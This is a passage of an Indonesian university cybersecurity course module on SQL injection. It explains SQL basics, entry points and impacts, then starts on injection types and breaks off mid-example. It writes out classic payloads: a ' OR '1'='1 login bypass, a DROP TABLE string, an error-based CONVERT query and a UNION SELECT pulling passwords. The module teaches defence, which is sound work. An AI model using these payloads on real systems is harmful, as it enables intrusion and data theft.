








# MODUL 12: SQL INJECTION

## PENGANTAR KEAMANAN SIBER
### Program Studi Informatika - Universitas Pertahanan RI

---

[Slide untuk Pertemuan Ini](https://anindito.github.io/intro/12/)
## Capaian Pembelajaran

### CPMK yang Dicapai

**CPMK 5**: Mahasiswa mampu menganalisis serangan umum pada sistem, jaringan, dan aplikasi web serta merumuskan strategi mitigasinya.

### Sub-CPMK

| Kode | Capaian Pembelajaran |
|------|---------------------|
| Sub-CPMK 5.16 | Mahasiswa mampu menjelaskan konsep SQL injection |
| Sub-CPMK 5.17 | Mahasiswa mampu mendemonstrasikan teknik SQL injection |
| Sub-CPMK 5.18 | Mahasiswa mampu menjelaskan strategi mitigasi serangan SQL injection |

### Tujuan Pembelajaran

Setelah mempelajari modul ini, mahasiswa diharapkan mampu:

1. Memahami konsep dan mekanisme SQL injection
2. Mempelajari tipe-tipe SQL injection
3. Memahami metodologi pengujian SQL injection
4. Mempelajari teknik mitigasi SQL injection

---

## 12.1 Pengantar Database dan SQL

### 12.1.1 Apa Itu Database?

Bayangkan Anda memiliki sebuah perpustakaan besar dengan ribuan buku. Untuk menemukan buku yang Anda cari, perpustakaan tersebut memiliki sistem katalog yang mencatat judul buku, pengarang, tahun terbit, dan lokasi rak. Tanpa katalog ini, mencari satu buku dari ribuan koleksi akan sangat menyulitkan.

Database bekerja dengan prinsip yang sama. Database adalah kumpulan data yang terorganisir secara sistematis dan disimpan dalam format elektronik. Data-data ini disimpan dalam struktur yang memudahkan pencarian, pengambilan, dan pengelolaan informasi. Hampir setiap aplikasi modern yang Anda gunakan sehari-hari menggunakan database untuk menyimpan informasi, mulai dari aplikasi perbankan yang menyimpan data rekening Anda, media sosial yang menyimpan postingan dan data profil, hingga toko online yang menyimpan katalog produk dan riwayat pembelian.

### 12.1.2 Struktur Database Relasional

Jenis database yang paling umum digunakan adalah database relasional. Database relasional menyimpan data dalam bentuk tabel-tabel yang saling berhubungan. Setiap tabel terdiri dari baris dan kolom, mirip seperti spreadsheet Excel yang mungkin sudah Anda kenal.

Sebagai contoh, sebuah sistem e-commerce sederhana mungkin memiliki tabel seperti berikut:

**Tabel: pengguna**

| id_pengguna | nama_lengkap | email | kata_sandi | saldo |
|-------------|--------------|-------|------------|-------|
| 1 | Ahmad Rizki | ahmad@email.com | hashed_password1 | 500000 |
| 2 | Siti Aminah | siti@email.com | hashed_password2 | 1250000 |
| 3 | Budi Santoso | budi@email.com | hashed_password3 | 750000 |

**Tabel: produk**

| id_produk | nama_produk | harga | stok |
|-----------|-------------|-------|------|
| 101 | Laptop Gaming | 15000000 | 10 |
| 102 | Mouse Wireless | 350000 | 50 |
| 103 | Keyboard Mechanical | 1200000 | 25 |

Dalam struktur ini, setiap kolom memiliki nama yang unik dan menyimpan jenis data tertentu. Kolom "id_pengguna" menyimpan angka identifikasi unik, kolom "nama_lengkap" menyimpan teks nama, dan kolom "saldo" menyimpan nilai numerik. Baris-baris dalam tabel mewakili setiap entri data individual, yang dalam konteks ini adalah setiap pengguna atau produk.



*Gambar 12.1: Struktur Database Relasional - menunjukkan tabel, kolom, primary key, dan relasi antar tabel*

### 12.1.3 Apa Itu SQL?

SQL, singkatan dari Structured Query Language, adalah bahasa standar yang digunakan untuk berkomunikasi dengan database relasional. SQL memungkinkan Anda untuk melakukan berbagai operasi terhadap data, mulai dari mengambil informasi, menambahkan data baru, mengubah data yang sudah ada, hingga menghapus data.

Bayangkan SQL sebagai bahasa perantara antara Anda dan database. Ketika Anda ingin mencari informasi dalam database, Anda menuliskan permintaan dalam bahasa SQL, kemudian database akan memproses permintaan tersebut dan memberikan hasilnya kepada Anda.

### 12.1.4 Perintah-Perintah Dasar SQL

Untuk memahami SQL injection, Anda perlu memahami beberapa perintah dasar SQL yang sering digunakan. Perintah-perintah ini dibagi menjadi beberapa kategori berdasarkan fungsinya.

**Perintah SELECT - Mengambil Data**

Perintah SELECT digunakan untuk mengambil data dari database. Ini adalah perintah yang paling sering digunakan dalam aplikasi web karena hampir setiap halaman web membutuhkan pengambilan data dari database untuk ditampilkan kepada pengguna.

Contoh sederhana penggunaan SELECT:

```sql
SELECT nama_lengkap, email FROM pengguna;
```

Perintah di atas akan mengambil kolom nama_lengkap dan email dari semua baris dalam tabel pengguna. Hasilnya akan menampilkan daftar nama dan email semua pengguna yang terdaftar.

Untuk mengambil data berdasarkan kondisi tertentu, digunakan klausa WHERE:

```sql
SELECT * FROM pengguna WHERE id_pengguna = 1;
```

Tanda bintang (*) berarti "semua kolom", sedangkan WHERE id_pengguna = 1 berarti hanya mengambil baris di mana nilai kolom id_pengguna sama dengan 1. Perintah ini akan mengembalikan seluruh informasi tentang pengguna dengan ID nomor 1.

**Perintah INSERT - Menambahkan Data**

Perintah INSERT digunakan untuk menambahkan data baru ke dalam tabel. Ketika Anda mendaftar akun baru di sebuah website, aplikasi tersebut menggunakan perintah INSERT untuk menyimpan data Anda ke database.

```sql
INSERT INTO pengguna (nama_lengkap, email, kata_sandi, saldo) 
VALUES ('Dewi Lestari', 'dewi@email.com', 'hashed_password4', 0);
```

Perintah ini menambahkan baris baru ke tabel pengguna dengan nilai-nilai yang ditentukan.

**Perintah UPDATE - Mengubah Data**

Perintah UPDATE digunakan untuk mengubah data yang sudah ada dalam database. Ketika Anda memperbarui profil atau mengubah kata sandi, aplikasi menggunakan perintah ini.

```sql
UPDATE pengguna SET saldo = 1000000 WHERE id_pengguna = 1;
```

Perintah ini mengubah nilai saldo menjadi 1000000 untuk pengguna dengan ID nomor 1.

**Perintah DELETE - Menghapus Data**

Perintah DELETE digunakan untuk menghapus data dari database.

```sql
DELETE FROM pengguna WHERE id_pengguna = 3;
```

Perintah ini menghapus baris dari tabel pengguna di mana id_pengguna bernilai 3.

### 12.1.5 Operator dan Kondisi dalam SQL

SQL menyediakan berbagai operator untuk membuat kondisi yang lebih kompleks dalam query. Pemahaman terhadap operator-operator ini penting karena penyerang sering memanfaatkannya dalam serangan SQL injection.

**Operator Logika**

Operator AND digunakan ketika kedua kondisi harus terpenuhi:

```sql
SELECT * FROM pengguna WHERE email = 'ahmad@email.com' AND kata_sandi = 'password123';
```

Query ini biasanya digunakan untuk proses login, di mana sistem memeriksa apakah kombinasi email dan kata sandi yang dimasukkan pengguna cocok dengan data di database.

Operator OR digunakan ketika salah satu kondisi terpenuhi sudah cukup:

```sql
SELECT * FROM produk WHERE harga < 500000 OR stok > 30;
```

Query ini mengambil produk yang harganya di bawah 500000 ATAU stoknya lebih dari 30.

**Komentar dalam SQL**

SQL memiliki sintaks untuk komentar yang memungkinkan programmer menulis catatan dalam kode. Ada dua jenis komentar yang umum:

Komentar satu baris menggunakan tanda dua strip (--):

```sql
SELECT * FROM pengguna -- ini adalah komentar, diabaikan oleh database
```

Komentar multi-baris menggunakan tanda /* dan */:

```sql
SELECT * FROM pengguna /* 
komentar ini bisa 
lebih dari satu baris 
*/
```

Pemahaman tentang komentar ini sangat penting karena penyerang sering menggunakan komentar untuk menonaktifkan bagian dari query asli dalam serangan SQL injection.

---

## 12.2 Memahami SQL Injection

### 12.2.1 Definisi SQL Injection

SQL Injection adalah teknik serangan siber yang mengeksploitasi kerentanan dalam aplikasi web yang tidak memvalidasi input pengguna dengan benar. Dalam serangan ini, penyerang menyisipkan atau "menginjeksi" kode SQL berbahaya ke dalam input yang seharusnya hanya berisi data biasa. Ketika aplikasi menjalankan query yang sudah tercemar oleh kode berbahaya tersebut, database akan mengeksekusi perintah yang tidak seharusnya dijalankan.

Untuk memahami konsep ini dengan lebih mudah, bayangkan Anda mengisi formulir lamaran kerja. Pada kolom "Nama", Anda seharusnya menulis nama Anda seperti "Ahmad Rizki". Namun, dalam SQL injection, seorang penyerang tidak menulis nama biasa, melainkan menulis sesuatu seperti "Ahmad'; DROP TABLE lamaran;--". Jika sistem tidak memeriksa input dengan benar, perintah berbahaya tersebut bisa tereksekusi dan menghapus seluruh tabel lamaran dari database.

SQL injection termasuk dalam kategori serangan injeksi (injection attack) yang merupakan salah satu kerentanan paling berbahaya menurut OWASP Top 10. Serangan ini telah ada sejak awal perkembangan aplikasi web dan hingga saat ini masih menjadi ancaman serius karena masih banyak aplikasi yang tidak menerapkan perlindungan yang memadai.



*Gambar 12.2: Konsep SQL Injection - perbandingan alur normal dan alur serangan*

### 12.2.2 Mengapa SQL Injection Terjadi?

SQL injection terjadi karena cara aplikasi web membangun query SQL. Dalam banyak aplikasi, query SQL dibangun dengan menggabungkan string (teks) secara langsung dengan input yang diberikan pengguna. Pendekatan ini disebut konstruksi query dinamis atau dynamic query construction.

Mari kita lihat contoh konkret. Sebuah aplikasi web memiliki halaman login dengan formulir yang meminta email dan kata sandi. Ketika pengguna mengisi formulir dan menekan tombol login, aplikasi mengambil nilai yang dimasukkan pengguna dan membangun query SQL seperti berikut:

```
Query = "SELECT * FROM pengguna WHERE email = '" + email + "' AND kata_sandi = '" + kata_sandi + "'"
```

Jika pengguna memasukkan:
- Email: ahmad@email.com
- Kata sandi: password123

Maka query yang terbentuk adalah:

```sql
SELECT * FROM pengguna WHERE email = 'ahmad@email.com' AND kata_sandi = 'password123'
```

Query ini benar dan akan bekerja sesuai harapan, yaitu mencari pengguna dengan email dan kata sandi yang cocok.

Namun, masalah muncul ketika input pengguna mengandung karakter khusus SQL. Jika penyerang memasukkan:
- Email: ' OR '1'='1
- Kata sandi: ' OR '1'='1

Maka query yang terbentuk menjadi:

```sql
SELECT * FROM pengguna WHERE email = '' OR '1'='1' AND kata_sandi = '' OR '1'='1'
```

Kondisi '1'='1' selalu bernilai benar (TRUE), sehingga query ini akan mengembalikan semua data pengguna dalam database, bukan hanya satu pengguna yang cocok. Penyerang bisa masuk ke sistem tanpa mengetahui email atau kata sandi yang valid.

### 12.2.3 Titik Masuk Serangan SQL Injection

Serangan SQL injection dapat dilakukan melalui berbagai titik masuk dalam aplikasi web. Pemahaman tentang titik-titik masuk ini penting untuk mengidentifikasi dan melindungi bagian-bagian aplikasi yang rentan.

**Formulir Input Pengguna**

Formulir adalah titik masuk yang paling umum untuk SQL injection. Hampir setiap aplikasi web memiliki formulir, mulai dari formulir login, formulir pendaftaran, formulir pencarian, hingga formulir komentar. Setiap field input dalam formulir berpotensi menjadi vektor serangan jika tidak divalidasi dengan benar.

Contoh formulir yang rentan termasuk kolom username dan password pada halaman login, kotak pencarian produk pada toko online, field komentar pada blog, dan formulir kontak pada website perusahaan. Penyerang dapat menyisipkan payload SQL injection ke dalam field-field ini dan melihat apakah aplikasi mengeksekusi kode berbahaya tersebut.

**Parameter URL**

Banyak aplikasi web menggunakan parameter dalam URL untuk menentukan konten yang ditampilkan. Sebagai contoh, URL seperti https://toko.com/produk?id=5 menggunakan parameter "id" untuk menampilkan produk dengan ID nomor 5. Jika aplikasi menggunakan nilai parameter ini langsung dalam query SQL tanpa validasi, penyerang bisa memodifikasi URL menjadi https://toko.com/produk?id=5' OR '1'='1 untuk mencoba melakukan SQL injection.

**Cookie dan Header HTTP**

Cookie adalah file kecil yang disimpan di browser pengguna dan dikirim ke server pada setiap permintaan. Beberapa aplikasi menggunakan nilai cookie dalam query database, misalnya untuk mengidentifikasi sesi pengguna. Jika nilai cookie ini digunakan langsung dalam query tanpa sanitasi, penyerang yang bisa memodifikasi cookie dapat melakukan SQL injection.

Demikian pula dengan header HTTP seperti User-Agent, Referer, atau header kustom lainnya. Jika aplikasi mencatat informasi dari header ini ke database atau menggunakannya dalam query, header-header tersebut juga bisa menjadi titik masuk serangan.



*Gambar 12.3: Titik Masuk SQL Injection - berbagai vektor serangan yang dapat dieksploitasi*

### 12.2.4 Dampak Serangan SQL Injection

Serangan SQL injection yang berhasil dapat menimbulkan dampak yang sangat serius bagi organisasi yang menjadi korban. Dampak-dampak ini mencakup aspek teknis, finansial, dan reputasi.

**Pencurian Data Sensitif**

Dampak yang paling umum dari SQL injection adalah pencurian data. Penyerang dapat mengakses informasi sensitif yang tersimpan dalam database, termasuk data pribadi pengguna seperti nama, alamat, nomor telepon, dan email, kredensial login seperti username dan password (yang mungkin bisa digunakan untuk mengakses sistem lain jika pengguna menggunakan kata sandi yang sama), informasi keuangan seperti nomor kartu kredit, rekening bank, dan riwayat transaksi, serta data bisnis rahasia seperti rencana produk, informasi harga, dan data pelanggan.

Pencurian data ini tidak hanya merugikan organisasi tetapi juga individu yang datanya dicuri. Data yang dicuri sering dijual di pasar gelap internet (dark web) atau digunakan untuk pencurian identitas.

**Manipulasi Data**

Selain mencuri data, penyerang juga dapat memodifikasi data yang ada dalam database. Ini bisa mencakup mengubah saldo rekening dalam aplikasi perbankan, memodifikasi harga produk dalam sistem e-commerce, mengubah nilai ujian dalam sistem akademik, atau menghapus catatan penting dari database.

Manipulasi data bisa sulit dideteksi, terutama jika penyerang melakukan perubahan kecil yang tidak langsung terlihat. Dampaknya bisa sangat merugikan, terutama jika melibatkan data keuangan atau data yang digunakan untuk pengambilan keputusan penting.

**Pengambilalihan Sistem**

Dalam kasus yang lebih ekstrem, SQL injection dapat digunakan untuk mengambil alih kendali atas server database atau bahkan server web secara keseluruhan. Beberapa database memiliki fitur yang memungkinkan eksekusi perintah sistem operasi, dan jika fitur ini dieksploitasi, penyerang bisa mendapatkan akses shell ke server.

Dengan akses ke sistem, penyerang dapat menginstal malware atau backdoor untuk akses berkelanjutan, menggunakan server sebagai basis untuk menyerang sistem lain, mencuri data dari sistem lain yang terhubung ke jaringan yang sama, atau melumpuhkan sistem sepenuhnya (denial of service).

**Kerugian Finansial dan Reputasi**

Dampak SQL injection melampaui aspek teknis. Organisasi yang menjadi korban dapat mengalami kerugian finansial langsung dari pencurian atau fraud, biaya investigasi dan pemulihan insiden, denda regulatori karena pelanggaran perlindungan data (misalnya GDPR), biaya notifikasi dan kompensasi kepada pelanggan yang terdampak, serta kehilangan pendapatan akibat gangguan operasional.

Dari sisi reputasi, insiden keamanan dapat menyebabkan hilangnya kepercayaan pelanggan, publisitas negatif di media, dan dampak jangka panjang terhadap brand perusahaan. Dalam beberapa kasus, dampak reputasi ini bisa lebih merugikan daripada kerugian finansial langsung.

---

## 12.3 Tipe-Tipe SQL Injection

SQL injection dapat diklasifikasikan menjadi beberapa tipe berdasarkan cara penyerang mengekstrak informasi dari database. Setiap tipe memiliki karakteristik dan teknik yang berbeda, sehingga memahami masing-masing tipe akan membantu dalam mengenali dan mencegah serangan.

### 12.3.1 In-Band SQL Injection

In-band SQL injection adalah tipe yang paling umum dan paling mudah dieksploitasi. Disebut "in-band" karena penyerang menggunakan saluran komunikasi yang sama untuk meluncurkan serangan dan menerima hasilnya. Artinya, respons dari database dikembalikan langsung melalui halaman web yang sama yang digunakan untuk mengirim payload berbahaya.

**Error-Based SQL Injection**

Error-based SQL injection memanfaatkan pesan error yang ditampilkan oleh database ketika terjadi kesalahan dalam query. Ketika aplikasi tidak menangani error dengan baik dan menampilkan pesan error database secara langsung kepada pengguna, penyerang dapat menggunakan pesan-pesan ini untuk memahami struktur database dan mengekstrak data.

Sebagai ilustrasi, bayangkan seorang penyerang memasukkan input yang sengaja menyebabkan error:

```
Input: ' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables))--
```

Jika database menampilkan pesan error seperti:

```
Conversion failed when converting the nvarchar value 'pengguna' to data type int.
```

Dari pesan error ini, penyerang mengetahui bahwa ada tabel bernama "pengguna" dalam database. Penyerang kemudian dapat melanjutkan untuk mengekstrak informasi lain seperti nama kolom dan data aktual.

Teknik ini sangat efektif tetapi membutuhkan aplikasi yang menampilkan pesan error database secara langsung, yang sebenarnya merupakan praktik buruk dalam pengembangan aplikasi. Aplikasi yang dikembangkan dengan baik seharusnya menampilkan pesan error generik kepada pengguna dan mencatat detail error di log server.

**Union-Based SQL Injection**

Union-based SQL injection memanfaatkan operator UNION dalam SQL untuk menggabungkan hasil dari query asli dengan query tambahan yang dibuat oleh penyerang. Operator UNION memungkinkan penggabungan hasil dari dua atau lebih query SELECT menjadi satu hasil.

Untuk memahami teknik ini, pertimbangkan contoh aplikasi yang menampilkan detail produk berdasarkan ID:

```sql
-- Query asli dalam aplikasi
SELECT nama_produk, harga, deskripsi FROM produk WHERE id_produk = [input]
```

Penyerang memasukkan input:

```
1 UNION SELECT username, password, email FROM pengguna--
```

Sehingga query yang dieksekusi menjadi:

```sql
